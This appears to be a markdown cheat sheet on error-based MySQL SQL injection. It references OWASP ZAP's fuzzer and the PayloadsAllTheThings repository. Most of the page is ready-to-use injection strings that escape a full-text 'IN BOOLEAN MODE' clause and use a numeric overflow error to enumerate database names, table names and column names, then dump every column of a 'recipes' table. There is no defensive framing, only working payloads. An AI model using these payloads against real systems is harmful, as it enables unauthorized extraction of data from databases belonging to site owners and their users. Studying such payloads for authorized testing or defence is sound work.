 ## Owasp ZAP
```
fuzzer
```

## Payloads
- Link of advanced sqlinjection payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection

## ErrorBased SQLI

- The actual data retriving payload inside <<<>>>

```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT       ........... <<<version()>>> ...........          )s), 8446744073709551610, 8446744073709551610)))#
```
### Payloads
- Retrieve Databases names in one line
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * From(SELECT GROUP_CONCAT(schema_name) AS AllDatabases FROM information_schema.SCHEMATA)s), 8446744073709551610, 8446744073709551610)))#
```
- Retrive Table Names 
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'recipes' AND TABLE_TYPE = 'BASE TABLE')s), 8446744073709551610, 8446744073709551610)))#
```

- Retrive Column Names
- Group_concat(concatinate the values of output in one line)
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'recipes' AND TABLE_NAME = 'recipes')s), 8446744073709551610, 8446744073709551610)))#
```

- Retrive Data from Table Columns
- Concat_ws(replace null value as '')
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * From(SELECT concat_ws(',',id,name,servings,ingredients,instructions,description,category,added,modified,creator,editor,imagefile) FROM recipes)s), 8446744073709551610, 8446744073709551610)))#
```



